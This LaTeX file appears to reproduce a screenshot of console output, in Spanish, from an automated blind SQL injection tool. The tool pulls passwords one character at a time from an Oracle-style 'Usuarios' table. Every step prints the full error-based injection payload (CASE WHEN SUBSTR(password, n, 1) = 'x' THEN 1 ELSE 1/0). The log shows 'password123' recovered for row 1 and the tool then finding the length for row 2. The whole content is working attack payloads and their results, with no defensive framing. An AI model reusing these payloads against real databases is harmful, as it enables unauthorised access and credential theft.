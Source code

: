 \documentclass[a4paper,12pt]{article}
\begin{document}
\begin{lstlisting}[style=console, basicstyle=\ttfamily\footnotesize]
 [+] Extrayendo carácter 5 de 11 para la fila 1...
 OK Carácter 5: 'w' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 5, 1) = 'w') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
 
 [+] Extrayendo carácter 6 de 11 para la fila 1...
 OK Carácter 6: 'o' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 6, 1) = 'o') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
 
 [+] Extrayendo carácter 7 de 11 para la fila 1...
 OK Carácter 7: 'r' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 7, 1) = 'r') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
 
 [+] Extrayendo carácter 8 de 11 para la fila 1...
 OK Carácter 8: 'd' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 8, 1) = 'd') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
 
 [+] Extrayendo carácter 9 de 11 para la fila 1...
 OK Carácter 9: '1' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 9, 1) = '1') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
 
 [+] Extrayendo carácter 10 de 11 para la fila 1...
 OK Carácter 10: '2' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 10, 1) = '2') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
 
 [+] Extrayendo carácter 11 de 11 para la fila 1...
 OK Carácter 11: '3' encontrado.
 [+] Inyección utilizada: d382yd8n21df4314fn817yf6834188ls023d8d' AND (SELECT CASE WHEN (SUBSTR(password, 11, 1) = '3') THEN 1 ELSE 1/0 END FROM (SELECT password, ROWNUM AS rn FROM Usuarios) WHERE rn=1) = 1 --
 [+] Valor extraído para la fila 1: password123
 
 [+] Extrayendo datos para la fila 2...
 
 [+] Determinando la longitud de 'password' para la fila 2...
 FAIL Probando longitud 1 para la fila 2...
 FAIL Probando longitud 2 para la fila 2...
 FAIL Probando longitud 3 para la fila 2...
 FAIL Probando longitud 4 para la fila 2...
 FAIL Probando longitud 5 para la fila 2...
 FAIL Probando longitud 6 para la fila 2...
 FAIL Probando longitud 7 para la fila 2...
 FAIL Probando longitud 8 para la fila 2...
 OK Probando longitud 9 para la fila 2...
 [*] La longitud de 'password' en la fila 2 es: 9
 

\end{lstlisting}
\end{document}
